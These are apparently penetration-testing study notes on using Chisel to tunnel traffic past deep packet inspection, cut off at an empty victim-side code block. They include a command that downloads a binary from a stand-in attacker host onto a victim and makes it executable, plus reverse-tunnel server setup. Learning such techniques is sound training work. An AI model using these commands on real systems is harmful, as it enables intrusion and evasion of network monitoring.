 # Tunneling Through Deep Packet Inspection

- <https://en.wikipedia.org/wiki/Deep_packet_inspection>



## Chisel

- <https://github.com/jpillora/chisel/releases>

Is an HTTP tunneling tool that encapsulates our data stream within HTTP.

It also uses the SSH protocol within the tunnel so our data will be encrypted.

Chisel uses a client/server model.
A Chisel server must be set up, which can accept a connection from the Chisel client. 
Various port forwarding options are available depending on the server and client configurations.

One useful option is reverse port forwarding, which is similar to SSH remote port forwarding.


Older tools like `HTTPTunnel` offer similar tunneling functionality, but lack the flexibility and cross-platform capabilities of Chisel.
- <http://http-tunnel.sourceforge.net/>







1. We will run a Chisel server on our Kali machine, which will accept a connection from a Chisel client running on [VICTIM 1].

The Chisel server and client are actually run from the same binary, they're just initialized with either server or client as the first argument.
If our target host is running a different operating system or architecture, we have to download and use the compiled binary for that specific operating system and architecture from the Chisel Github releases page.

On ATTACKER MACHINE:
```
sudo systemctl start apache2
sudo cp $(which chisel) /var/www/html/
```

On VICTIM 1:
```
wget [ATTACKER]/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```





Once we have the Chisel binary on both our Kali machine and the target, we can run them.
On the Kali machine, we'll start the binary as a server with the server subcommand, along with the bind port (`--port`) and the `--reverse` flag to allow the reverse port forward.

On ATTACKER
```
chisel server --port 8080 --reverse


## run tcpdump on our Kali machine to log incoming traffic
sudo tcpdump -nvvvXi tun0 tcp port 8080
# Output:
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

On VICTIM 1
```

```





















































